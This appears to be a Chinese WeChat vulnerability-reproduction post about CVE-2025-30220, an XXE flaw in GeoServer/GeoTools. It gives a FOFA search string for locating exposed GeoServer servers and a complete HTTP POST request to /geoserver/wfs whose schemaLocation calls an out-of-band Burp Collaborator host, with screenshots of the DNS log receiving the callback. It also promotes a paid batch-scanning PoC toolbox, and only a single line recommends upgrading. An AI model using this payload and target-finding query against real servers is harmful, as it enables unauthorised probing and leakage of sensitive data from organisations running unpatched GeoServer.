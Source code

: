 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247488669&idx=1&sn=6bf60d1b46f7bc65baea56698b8444da

#  Geoserver GeoTools存在XXE漏洞CVE-2025-30220 附POC  
2025-6-24更新  南风漏洞复现文库   2025-06-24 15:43  
  
   
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. Geoserver GeoTools简介  
  
微信公众号搜索：南风漏洞复现文库  
该文章 南风漏洞复现文库 公众号首发  
  
GeoServer是一个功能齐全,遵循OGC开放标准的开源WFS-T和WMS服务器。  
## 2.漏洞描述  
  
GeoServer是一个功能齐全,遵循OGC开放标准的开源WFS-T和WMS服务器。CVE-2025-30220 中，攻击者可构造恶意请求触发XXE漏洞，造成敏感信息泄漏。漏洞根源在于Geotools，因此 GeoServer与GeoNetwork 均受影响。  
  
CVE编号:CVE-2025-30220  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
Geoserver和GeoTools  
  
![Geoserver GeoTools存在XXE漏洞](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3YX2TQFSeGKyOwYvcwBQ3cAfzoKibWN0UWCKmB2M1mZ1pF8qibqMFqIibsQ5VXLiaAKjjCXLHibLepzerQ/640?wx_fmt=png&from=appmsg "null")  
  
Geoserver GeoTools存在XXE漏洞  
## 4.fofa查询语句  
  
app="GeoServer"  
## 5.漏洞复现  
  
漏洞链接：http://xx.xx.xx.xx/geoserver/wfs  
  
漏洞数据包：  

```
POST /geoserver/wfs HTTP/1.1User-Agent: Mozilla/5.0 (Fedora; Linux x86_64; rv:121.0) Gecko/20100101 Firefox/121.0Accept-Encoding: gzip, deflateAccept: */*Connection: closeHost: xx.x.xx.xxContent-Type: application/xmlContent-Length: 362<wfs:GetFeature service=&#34;WFS&#34; version=&#34;1.0.0&#34;xmlns:wfs=&#34;http://www.opengis.net/wfs&#34;xmlns:xsi=&#34;http://www.w3.org/2001/XMLSchema-instance&#34;xmlns:topp=&#34;http://www.openplans.org/topp&#34;xsi:schemaLocation=&#34;http://a http://7qye34hq8kudva9jd2aitm6prgx8lx.burpcollaborator.net/xxe.xsd&#34;outputFormat=&#34;KML&#34;><wfs:Query typeName=&#34;topp:states&#34;/></wfs:GetFeature>
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YX2TQFSeGKyOwYvcwBQ3cAuSlKibCfWFLlp9e1uhXicA5lXC3hKwrOjzknSHSNkXn4ibNibdsQn6aEkQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
dnslog平台收到访问记录  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3YX2TQFSeGKyOwYvcwBQ3cAicBUibpv5AZPYMTHvwfNS6Dd7fLuVVrK3bgeIMjNdJPQeMT6s1BDiaHcg/640?wx_fmt=png&from=appmsg "null")  
  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
2: 免登录，免费fofa查询。  
3: 更新其他实用网络安全工具项目。  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YX2TQFSeGKyOwYvcwBQ3cAYYrVPjSYflmj3Kp1v7EicDNb2HEwN4V8hdRjKdyeQlAzjVcTOXgHRDA/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YX2TQFSeGKyOwYvcwBQ3cAn5P82bmFCsoqXZKvWShlibqPHAwssZdfG7vDqwdWKdD1Yciapa74Iquw/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YX2TQFSeGKyOwYvcwBQ3cAQNwIvRlruiaUfwNh4wMyLegP6BG0b1etemN5icWl3doezScOe53XTriag/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YX2TQFSeGKyOwYvcwBQ3cAS8Olyu4xz5E8Bw5C0vRe7qrHic6q6Y2gJ1ArsiaIaubyknO8xtEYzRZQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YX2TQFSeGKyOwYvcwBQ3cAsbPZs8LwEN1TASFiapr0HK0XJiaG10XkFjJtRhxecZs4UAJqpiaSvX1Zg/640?wx_fmt=jpeg&from=appmsg "null")  
  
## 7.整改意见  
  
官方已发布安全更新，建议升级至最新版本。  
## 8.往期回顾  
  
  
   
  
  
  

